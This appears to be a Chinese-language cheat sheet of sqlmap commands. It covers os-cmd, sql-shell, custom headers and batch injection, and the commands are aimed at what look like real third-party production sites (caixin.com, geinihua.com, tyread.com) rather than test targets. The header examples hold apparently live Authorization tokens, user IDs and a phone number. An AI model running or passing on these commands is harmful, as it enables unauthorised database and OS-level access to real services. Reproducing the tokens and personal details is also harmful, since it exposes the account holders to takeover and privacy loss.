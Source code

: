 ## 一、 install
SqlMap 安装需要依赖 Python 环境。
- 通通下载最新版本，运行 `sqlmap.py`
    ```terminal
    [CRITICAL] incompatible Python version detected ('3.6.3'). For successfully running sqlmap you'll have to se version 2.6.x or 2.7.x (visit 'http://www.python.org/download/')
    ```

## 二、usage
官方地址：http://sqlmap.org/
用户手册：https://github.com/sqlmapproject/sqlmap/wiki


## 三、 执行 os 命令 
> --os-cmd

./sqlmap.py --url='https://mapiv5.caixin.com/api.php?m=api_user&a=get_invitation_code&login=1&imei=352419010176259&user_id=7494861&mobile_type=android&app_type=Caixin&channel=QQ'  -p user_id --os-cmd=whoami 

## 四、 执行 sql 命令
> --sql-shell

./sqlmap.py --url='https://mapiv5.caixin.com/api.php?m=api_user&a=get_invitation_code&login=1&imei=352419010176259&user_id=7494861&mobile_type=android&app_type=Caixin&channel=QQ'  -p user_id --sql-shell 

## 五、 设置 http 请求头
```
X-Tingyun-Id: W7fPDcK_LWY;c=2;r=1629403882;
X-Tingyun-Lib-Type-N-ST: 3;1522901713559
Charset: UTF-8
userId: 210891874
Authorization: encrypt MjEwODkxODc0LXYx.7rGkan1VFiuNilaJdwl7abmcsFjsMeDLDi-_pvgGYug5AD-e5IACcHo6m62yLFb_8NpVSenJlbaQiNkuHYG4TQ
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Host: prebeidou.geinihua.com
Connection: close

./sqlmap.py --url='https://prebeidou.geinihua.com/gnh-bdplatform-gt/api/v1/order/orderList' --user-agent='geinihua,4.0.0,geinihua,Android,6.0.1,kiw-tl00,huawei,86792102338873' --headers='X-Tingyun-Id: W7fPDcK_LWY;c=2;r=1629403882;\nX-Tingyun-Lib-Type-N-ST: 3;1522901713559\nCharset: UTF-8\nuserId: 210891874\nAuthorization: encrypt MjEwODkxODc0LXYx.7rGkan1VFiuNilaJdwl7abmcsFjsMeDLDi-_pvgGYug5AD-e5IACcHo6m62yLFb_8NpVSenJlbaQiNkuHYG4TQ\nContent-Type: application/x-www-form-urlencoded\nContent-Length: 31\nHost: prebeidou.geinihua.com\nConnection: close' --data='userId=5ac48218f53475a81b09b121' 


./sqlmap.py --url='http://client.tyread.com:8080/portalapi/portalapi' --host='client.tyread.com:8080' --headers='phone-number: 13051661752\nAction: getSearchSuggestions\nConnection: close\nClient-Agent: TYYD_iPhoneOS_10_2_OC_6_1_3/640*1136/iPhone 5S\nuser-id: 210000268602273' --data='<Request><GetSearchSuggestionsReq><content>111</content><count>10</count></GetSearchSuggestionsReq></Request>'

```

## 六、 注入 header
1. 在 header Key:value 中的 value 后增加 *
2. 设置 --level >=2

## 七、 通过解析文件中的保存的文本进行批量注入
1. > sqlmap.py -r filepaht  --batch（不好用）
2. > sqlmap.py -l filepaht  --batch

## 八、 自动回答 sqlmap 的问题
--batch

## 九、 Sqlmap 延时，两个请求之间的时间间隔
--delay 1(1是时间，1秒，自己设置)

## 十、 存在SQL 注入的远程数据库如果知道账号密码如何进行远程连接？

